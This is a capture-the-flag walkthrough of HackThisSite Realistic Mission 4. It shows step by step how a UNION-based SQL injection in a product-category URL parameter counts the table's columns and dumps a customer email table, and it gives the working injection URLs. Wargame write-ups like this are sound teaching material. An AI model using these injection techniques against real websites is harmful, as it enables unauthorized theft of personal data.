 # Mission 4
https://www.hackthissite.org/playlevel/4/

- [Overview](#overview)
- [Solution](#solution)
  * [Initial Observations](#initial-observations)
  * [Finding Another Weakness](#finding-another-weakness)
  * [Setting Up the UNION Attack](#setting-up-the-union-attack)
- [Key Concept](#key-concept)
- [Key Ideas](#key-ideas)

## Overview
FAP is a company that slaughters animals and turns their skin into overpriced products which are then sold to rich bastards! Help animal rights activists increase political awareness by hacking their mailing list.

From: SaveTheWhales

Message: Hello, I was referred to you by a friend who says you know how to hack into computers and web sites - well I was wondering if you could help me out here. There's this local store who is killing hundreds of animals a day exclusively for the purpose of selling jackets and purses etc out of their skin! I have been to their website and they have an email list for their customers. I was wondering if you could somehow hack in and send me every email address on that list? I want to send them a message letting them know of the murder they are wearing. Just reply to this message with a list of the email addresses. Please?

## Solution
### Initial Observations
The website we're targeting has a list of customer email addresses and we need to retrieve them. A list of email addresses almost certainly means we're dealing with a database, and we've seen databases are susceptible to SQL injection attacks. Without even seeing the site in detail it sounds like we have our attack vector. But keep in mind this seems different than the SQL injection tactic we used in [Realistic Mission 2](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_02.md), where we used a SQL injection to bypass a login screen. This mission seems more about dumping a database's content.

The mission website has two pages with product contents, generated using some sort of PHP script (as evidenced by the products.php literal which appears in the URL structure when you open those pages, similar in some respects to pages in [Realistic Mission 3](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_03.md)). On the main page, there's a form to fill out to sign up for the mailing list. Enter a string which looks like a valid email address, click add to list, and you get a message saying 'Email added successfully'.

I thought maybe the solution was similar to the one in Mission 2, so I tried some of the common SQL injections I found [here](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens). None seemed to work, but I did get this error message: 'Error inserting into table "email"! Email not valid! Please contact an administrator of Fischer's'.

The error message never changed, so I concluded the solution wasn't as simple as putting the payload into the form box. But this message revealed an important detail: the table containing the email addresses we want is named email. If only there was somewhere I could run a SQL query like `SELECT * FROM email;` or `SELECT email FROM email;`, that would give me what I'm looking for.

### Finding Another Weakness
Since the mailing list form was a dead end, I went back to the two product listing pages, https://www.hackthissite.org/missions/realistic/4/products.php?category=1 and https://www.hackthissite.org/missions/realistic/4/products.php?category=2. That's when I realized these pages must be associated with another table. The category=1 and category=2 parts of the URLs are parameters for querying this second table. What happens if we give this table an invalid input, like a category value which doesn't exist? Ideally, I should get a 404 HTTP response.

I tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=3 and a white page loaded. I didn't explicitly get a 404 response, so to confirm I opened developer tools, pulled open the network tab so I could view the flow of HTTP requests, and reloaded the page. Sure enough, I could see the document returned a 200 response code. In other words, we just gave the site an input it absolutely should have rejected as invalid, but it didn't. I then tried accessing https://www.hackthissite.org/missions/realistic/4/products.php?category=ABC and got a broken image icon in my response. Another promising sign!

Before going any further it's important to think about how this page loads, similar to what we did in Realistic Mission 2. The backend code clearly involves a SQL query again, and for a URL like https://www.hackthissite.org/missions/realistic/4/products.php?category=1, it's probably something like this:
```
page_category = getRequestString("category");

sql = "SELECT * FROM [products] WHERE Category ='" + page_category + "'"
```

We've got a URL where we can tamper with a SQL query, but this query is tied to the wrong table. We want email addresses in the email table, not whatever this table is. Fortunately, PortSwigger's [SQL injection](https://portswigger.net/web-security/sql-injection) content references multiple types of injections, including the [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) which allows you to get data from different tables. I was already familiar with [UNION or UNION ALL](https://www.w3schools.com/sql/sql_ref_union.asp) commands through prior experience with SQL, but this seems relevant to the problem we're trying to solve. PortSwigger mentions, however, a successful UNION attack requires the individual queries to return the same number of columns. So we need to figure out how many columns are in both tables, products and email.

### Setting Up the UNION Attack
I saw hints that using the ORDER BY command would be helpful in learning about the products table schema. So I tried the following:
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1 loads the page as intended.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%201%20DASC flips the sorting of the page contents according to the pictures. This suggests the image data type is the first column in the products table.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DESC AND https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%202%20DASC didn't change the page contents. But there's a common string, 'A big hairy fur coat that is made of fuzzy cute animals that we mercilessly slaughtered' in each product description, so this means the product description is probably the second column. It's a string data type.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%203%20ASC sorts by price. This means price is the third column, probably as a string, too.
* https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420DESC and https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%20420ASC didn't change any sorting again. But many SQL tables have an ID column, so maybe this is it.
* URLs containing https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20ORDER%20BY%205 returned the broken image icon. I think that means there's no fifth column. The products table only has four columns, which makes sense.

As far as we know the email table only has one column, but we can fake more using NULL in our SELECT statement, like this: `SELECT email, NULL, NULL, NULL FROM email`.

I tried https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20email,%20null,%20null,%20null%20FROM%20email. The page loads with the usual page contents, but if you scroll down there are nine additional broken images. This seems close, but the issue now is the data types aren't right. If the first column of the products table is an image, SQL is expecting the first column of email to also be an image. The email column is a string, so we need that column to line up with another string column in the product table. The second column of the products table will do the trick. We need to change our SQL query to `SELECT NULL, email, NULL, NULL FROM email` or `SELECT NULL, NULL, email, NULL FROM email`.

Try https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20email,%20null,%20null%20FROM%20email or https://www.hackthissite.org/missions/realistic/4/products.php?category=1%20UNION%20ALL%20SELECT%20null,%20null,%20email,%20null%20FROM%20email, and there are your email addresses. Copy them and message them to SaveTheWhales.

## Key Concept
SQL injection, specifically UNION attacks

## Key Ideas
This mission expanded on prior SQL injection knowledge. We've now seen an example of how SQL injections can help us retrieve data from other tables in a site's database. This is in addition to Realistic Mission 2, where we used a SQL injection to bypass a login screen.

This discovery came at the expense of realizing the mailing list signup functionality was a bit of a misdirection. By tampering with it we were able to learn the name of the table we were targeting, but eventually I realized I needed to try my fortunes elsewhere on the site. Realizing I could enter invalid inputs into the https://www.hackthissite.org/missions/realistic/4/products.php?category= made me realize I was onto something, even though I needed a few hints to properly sketch out what the solution entailed.